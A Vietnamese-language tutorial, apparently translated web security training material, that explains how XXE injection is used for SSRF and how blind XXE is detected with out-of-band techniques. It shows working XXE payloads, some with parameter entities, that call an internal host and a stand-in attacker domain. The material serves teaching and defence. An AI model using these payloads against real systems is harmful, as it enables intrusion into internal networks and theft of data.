 Để khai thác lỗ hổng **XXE** nhằm thực hiện cuộc tấn công SSRF, bạn cần xác định một thực thể **XML bên ngoài** bằng URL mà bạn muốn nhắm mục tiêu và sử dụng thực thể đã xác định trong một giá trị dữ liệu. Nếu bạn có thể sử dụng thực thể đã xác định trong giá trị dữ liệu được trả về trong phản hồi của ứng dụng thì bạn sẽ có thể xem phản hồi từ URL trong phản hồi của ứng dụng và do đó có được sự tương tác hai chiều với hệ thống phụ trợ. Nếu không, bạn sẽ chỉ có thể thực hiện các cuộc tấn công **blind SSRF** (vẫn có thể gây ra hậu quả nghiêm trọng).

Trong ví dụ **XXE** sau, thực thể bên ngoài sẽ khiến máy chủ tạo yêu cầu HTTP back-end tới hệ thống nội bộ trong cơ sở hạ tầng của tổ chức:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
# Blind vulnerabilities
## What is blind XXE?
Lỗ hổng **Blind XXE** phát sinh khi ứng dụng dễ bị tiêm **XXE** nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào được xác định trong phản hồi của nó. Điều này có nghĩa là không thể truy xuất trực tiếp các tệp phía máy chủ và do đó **Blind XXE** thường khó khai thác hơn các lỗ hổng **XXE** thông thường.

Có hai cách chính để bạn có thể tìm và khai thác các lỗ hổng **Blind XXE**

- Bạn có thể kích hoạt out-of-band network interactions, đôi khiexfiltrating dữ liệu nhạy cảm trong dữ liệu tương tác.
- Bạn có thể kích hoạt các lỗi phân tích cú pháp XML theo cách các thông báo lỗi chứa dữ liệu nhạy cảm.

## Detecting blind XXE using out-of-band (OAST) techniques
Bạn thường có thể phát hiện **Blind XXE** bằng cách sử dụng kỹ thuật tương tự như đối với các cuộc tấn công **XXE SSRF** nhưng kích hoạt out-of-band network interaction với hệ thống mà bạn kiểm soát. Ví dụ: bạn sẽ xác định một thực thể bên ngoài như sau:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Sau đó, bạn sẽ sử dụng thực thể được xác định trong một giá trị dữ liệu trong XML.

Cuộc tấn công XXE này khiến máy chủ thực hiện yêu cầu HTTP phụ trợ tới URL được chỉ định. Attacker có thể theo dõi kết quả tra cứu DNS và yêu cầu HTTP, từ đó phát hiện rằng cuộc tấn công XXE đã thành công.

Đôi khi, các cuộc tấn công **XXE** sử dụng các thực thể thông thường bị chặn do một số xác thực đầu vào của ứng dụng hoặc việc tăng cường trình phân tích cú pháp XML đang được sử dụng. Trong trường hợp này, bạn có thể sử dụng các thực thể tham số XML để thay thế. Các thực thể tham số XML là một loại thực thể XML đặc biệt chỉ có thể được tham chiếu ở nơi khác trong DTD. Vì mục đích hiện tại, bạn chỉ cần biết hai điều. Đầu tiên, việc khai báo một thực thể tham số XML bao gồm ký tự phần trăm trước tên thực thể:
```
<!ENTITY % myparameterentity "my parameter entity value" >
```
Và thứ hai, các thực thể tham số được tham chiếu bằng ký tự phần trăm thay vì ký hiệu thông thường:
```
%myparameterentity;
```
Điều này có nghĩa là bạn có thể kiểm tra **blind XXE** bằng cách sử dụng tính năng out-of-band detection thông qua các thực thể tham số XML như sau:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
Payload **XXE** này khai báo một thực thể tham số XML có tên là `xxe` và sau đó sử dụng thực thể đó trong DTD. Điều này sẽ thực hiện tra cứu DNS và yêu cầu HTTP tới miền của kẻ tấn công, xác minh rằng cuộc tấn công đã thành công.
